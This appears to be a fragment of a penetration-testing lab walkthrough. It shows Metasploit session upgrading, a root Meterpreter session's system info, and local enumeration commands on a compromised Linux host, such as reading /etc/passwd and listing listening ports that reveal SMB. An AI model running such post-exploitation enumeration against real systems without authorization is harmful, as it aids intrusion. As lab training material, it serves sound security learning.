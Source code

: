 ```bash
sessions -u 1
sessions 2
```

- Some local enumeration

```bash
sysinfo
    Computer     : 192.215.55.3
    OS           : Debian 8.11 (Linux 5.4.0-131-generic)
    Architecture : x64
    BuildTuple   : i486-linux-musl
    Meterpreter  : x86/linux
getuid
	Server username: uid=0, gid=0, euid=0, egid=0
	# "root" user Meterpreter session
```

```bash
shell
```

```bash
/bin/bash -i
whoami

# Enumerate Users
cat /etc/passwd

groups root

cat /etc/*issue

cat /etc/*release

uname -a
```

![](.gitbook/assets/image-20230422123005653.png)

```bash
# Network Enumeration
netstat -antp

# if not working
ss -tnl

 State Recv-Q Send-Q Local Address:Port Peer Address:Port 
 LISTEN 0      50 				 *:445 		*:*     
 LISTEN 0      4096 	127.0.0.11:39389 	*:*     
 LISTEN 0      50 				 *:139 		*:*     
 LISTEN 0      50 				:::445 	   :::*     
 LISTEN 0      50 				:::139 	   :::*     
```
